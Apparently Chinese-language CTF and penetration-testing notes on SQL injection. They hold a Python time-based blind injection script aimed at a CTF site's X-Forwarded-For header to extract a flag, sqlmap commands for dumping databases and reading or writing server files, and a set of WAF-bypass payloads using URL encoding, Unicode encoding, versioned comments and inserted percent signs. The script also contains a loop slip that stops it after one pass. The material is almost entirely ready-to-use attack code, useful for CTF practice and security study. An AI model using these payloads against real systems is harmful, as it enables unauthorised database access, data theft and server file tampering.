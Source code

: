 ```py
s=requests.session()
url="http://ctf5.shiyanbar.com/web/wonderkun/index.php"

flag=''
guess=string.lowercase+string.uppercase+string.digits
for i in range(33):
    for st in guess:
        headers={"x-forwarded-for":"1'+"+"(select case when(substr((select flag from flag) from %d for 1)='%s') then sleep(5) else 1 end) and '1'='1" %(i,st)}
        try:
          res=s.get(url,headers=headers,timeout=4)
        except requests.exceptions.ReadTimeout:
            flag+=st
    print "flag:",flag
    break
print "result:"+flag
```

### sqlmap  

`-dbs -v 0  -dbs`, 根据不同的数据库管理平台探测包含的数据库名称    
`-D dvwa --tables` 根据数据库dvwa查找表名    
`-D dvwa --tables -T users --columns` 查找dvwa数据库中的users表中的字段列表    
`-D dvwa --tables -T users --columns --dump ` 字段内容  

#### post注入
```bash
sqlmap -u http://xxx.asp --data"id=114" --level 3
```

#### cookie注入

```bash
sqlmap -u http://xxx.asp --cookie "id=114" --level 2
```

- `--tables` 爆表
- `-T 表名 --columns` 爆字段
- `-T 表名 -C 字段名 -C" "` --dump
- `--file-read 文件` 读取文件
- `--file-write 本地文件 --file-dest 目标目录`写入文件
## 绕waf
1. url编码

?id=1 union select pass from admin limit 1
?id=1%20%75%6e%69%6f%6e%20%73%65%6c%65%63%74%20%70%61%73%73%20%66%72%6f%6d%20%61%64%6d%69%6e%20%6c%69%6d%69%74%20%31


2. Unicode编码

```
'e' => '%u0065', //这是他的Unicode 编码
?id=1 union select pass from admin limit 1
?id=1 un%u0069on sel%u0065ct pass f%u0072om admin li%u006dit 1
```
3. 反注释
```
/*!30000union all select (select distinct concat(0x7e,0x27,unhex(Hex(cast(schema_name as char))),0x27,0x7e) from `information_schema`.schemata limit 10,1),null,null,null,null*/--
```
4. 加%
```
newsid=60+a%nd%201=(se%lect%20@@VERSION)--
newsid=60+a%nd%201=(se%lect%20@@servername)--
```
